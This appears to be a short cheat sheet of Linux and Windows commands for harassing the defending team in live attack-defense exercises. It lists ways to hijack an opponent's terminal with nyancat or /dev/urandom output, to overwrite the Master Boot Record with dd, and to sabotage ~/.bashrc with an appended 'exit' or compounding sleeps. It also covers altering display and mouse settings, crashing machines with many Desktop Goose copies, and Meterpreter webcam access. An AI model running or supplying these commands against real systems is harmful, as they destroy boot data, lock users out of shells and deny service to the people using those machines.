 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.
tty # Retrieve TTY number (for redirection)
w   # Gives you you /dev/pts numbers

git clone https://github.com/klange/nyancat.git
cd nyancat
make
cd src
./nyancat > /dev/pts/<pts-num-of-opponent>

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/[pts-num-of-opponent] # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 

cat /dev/random > /dev/[pts-num-of-opponent] # write random stuff to your opponent's terminal. The brackets are just to show you that the tty-num is a parameter

telnet towel.blinkenlights.nl > /dev/[pts-num-of-opponent]
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 

***DoS WITH GEESE***
You can download and install the [Desktop Goose](https://samperson.itch.io/desktop-goose/download/eyJleHBpcmVzIjoxNzM5NDE2Mjg0LCJpZCI6NTU4MjE4fQ%3d%3d.RdlBCXbB6sF2fBp3tD9%2f19MhrZs%3d) on Windows and Mac. Running ten or more Desktop Geese may crash the adversary's computer.

